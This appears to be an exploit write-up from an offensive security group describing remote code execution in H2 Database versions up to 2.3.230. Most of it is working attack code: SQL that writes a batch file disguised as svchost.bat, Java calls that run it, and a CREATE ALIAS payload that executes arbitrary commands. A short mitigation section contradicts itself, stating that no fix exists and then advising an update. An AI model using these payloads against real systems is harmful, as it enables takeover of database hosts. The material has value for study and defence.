 # H2 Database Remote Code Execution (RCE) - Exploit Overview

**Date:** 17/07/2024  
**Author:** ViperX Offensive Security

## Affected Versions
H2 Database versions 1.0 to 2.3.230 are vulnerable to remote code execution (RCE).

## Exploit Flow
The exploitation strategy varies based on the version of the H2 Database:

1. **For Versions < 1.4:**
    - **Step 1:** Create a 'dummy' table within the database.
    - **Step 2:** Use the `SCRIPT SIMPLE NODATA NOSETTINGS TO '{BAT_FULLPATH}'` command to write output logs to a file located at `C:\Windows\Tasks\svchost.bat`.
    - **Step 3:** Depending on the specific version, execute the `.bat` file to achieve RCE:
        - For older versions, utilize `org.h2.util.StartBrowser.openURL`.
        - For newer versions, utilize `org.h2.tools.Server.openBrowser`.

2. **For Versions ≥ 1.4:**
    - **Step 1:** Exploit the 'CREATE ALIAS' function to execute Java code directly.

## Detailed Exploit Steps

1. **Creating a Dummy Table and Writing Logs:**
    ```sql
    CREATE TABLE dummy (id INT);
    SCRIPT SIMPLE NODATA NOSETTINGS TO 'C:\Windows\Tasks\svchost.bat';
    ```

2. **Executing the Batch File:**
    - **For Older Versions:**
        ```java
        org.h2.util.StartBrowser.openURL('file:///C:/Windows/Tasks/svchost.bat');
        ```
    - **For Newer Versions:**
        ```java
        org.h2.tools.Server.openBrowser('file:///C:/Windows/Tasks/svchost.bat');
        ```

** H2DB Versions >= 1.4 . **Java Code Execution via CREATE ALIAS:**
```java
CREATE FORCE ALIAS CMD_INJECT AS $$
  void pwshInject() throws Exception {
      Runtime.getRuntime().exec("%s");
  }
  $$;
```

By leveraging these methods, an attacker can perform remote code execution on vulnerable H2 Database instances, potentially gaining control over the host system.

## Mitigation
Since no fixes are currently available, it is recommended to implement the following measures to protect against this vulnerability:

- Update to the latest version of H2 Database.
- Implement strict access controls to limit exposure to untrusted networks.
- Regularly audit and monitor database configurations and activity.

For further details and assistance, please contact ViperX Offensive Security.
